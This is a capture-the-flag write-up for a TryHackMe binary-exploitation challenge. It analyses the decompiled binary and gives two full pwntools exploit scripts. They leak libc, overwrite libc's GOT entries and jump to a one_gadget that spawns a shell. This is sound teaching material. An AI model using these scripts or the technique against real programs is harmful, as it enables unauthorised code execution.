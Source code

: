 ```yaml
---
title: Precision
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: THM{REDACTED}
---
```

> No description.

---

Given a binary `precision` and `libc.so.6` file.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // [rsp+8h] [rbp-8h]
  void *ptra; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("\nCoordinates: %p\n", stdout);
  ptr = (void *)getint();
  write(1, "\nFirst chance: ", 0xFuLL);
  fread(ptr, 8uLL, 1uLL, stdin);
  ptra = (void *)getint();
  write(1, "\nSecond chance: ", 0x10uLL);
  fread(ptra, 8uLL, 1uLL, stdin);
  perror("!");
  _exit(1337);
}
```

The `main` function is simple, it calls `setup` function and print the `stdout` address. Then it calls `getint` function to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `getint` function again to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `perror` function and `_exit` function.

```c
unsigned __int64 getint()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  write(1, "\n>> ", 4uLL);
  fgets(s, 64, stdin);
  return strtoul(s, 0LL, 10);
}
```

The `getint` function is simple, it reads 64 bytes from the `stdin` and convert the input to the unsigned long integer. So we can abritrary write to the memory.

Setting breakpoint to the `main` function and to analyze the `GOT` address.

```sh
pwndbg> b *main
pwndbg> r
pwndbg> got -p ./libc.so.6
```

![alt text](image.png)

Set breakpoint to each `GOT` address and analyze the registers. After some finding i found we can use `__strlen_avx2` to replace the `GOT` address to call some address.

```sh
pwndbg> b *0x7ffff7f30960
Breakpoint 2 at 0x7ffff7f30960: file ../sysdeps/x86_64/multiarch/strlen-avx2.S, line 50.
pwndbg> c
```

![alt text](image-1.png)

So now we can use `__strlen_avx2` to call the one gadget.

```sh
$ one_gadget -l1 ./libc.so.6
```

```
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

So, `RCX`, `R9`, `RSI` and `R12` is empty, we can make this to make `RDX` to be NULL.

```sh
$ ROPgadget --binary libc.so.6 | grep "mov rdx, r12"
...
0x0000000000176df7 : mov rdx, r12 ; sub rdx, rsi ; call 0x283e0
...
```

And it call `__mempcpy_avx_unaligned_erms` got address. So we can replace the `__strlen_avx2` GOT to the address of `mov rdx, r12` gadget to clear the `RDX` register. and use `__mempcpy_avx_unaligned_erms` to call the one gadget.

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.39.142', 9004)
# r = remote('127.0.0.1', 9004)
libc = ELF('./libc.so.6')

# gdb.attach(r, '''
#         c
#             ''')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

__strlen_avx2 = libc_base + (0x7ffff7fac098 - 0x7ffff7d93000)
__mempcpy_avx_unaligned_erms = libc_base + (0x7ffff7fac040 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(__strlen_avx2).encode())
r.send(p64(libc_base + 0x176df7))

r.sendlineafter(b'>> ', str(__mempcpy_avx_unaligned_erms).encode())
r.send(p64(libc_base + 0xebcf8))

r.interactive()
```

## Bonus

Another solution to call the one gadget without meet the constraints (only works on remote).

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('10.10.39.142', 9004)
libc = ELF('./libc.so.6')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

one_gadget = libc_base + 0x10DBCA
got = libc_base + (0x7ffff7fac0b8 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendline(b'cat flag.txt') 

r.interactive()
```

## References

- [Code execution with a write primitive on last libc.](https://github.com/nobodyisnobody/docs/tree/6960bfb204f0cfe844d75809412b0f79313f105d/code.execution.on.last.libc)
- [code execution inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)

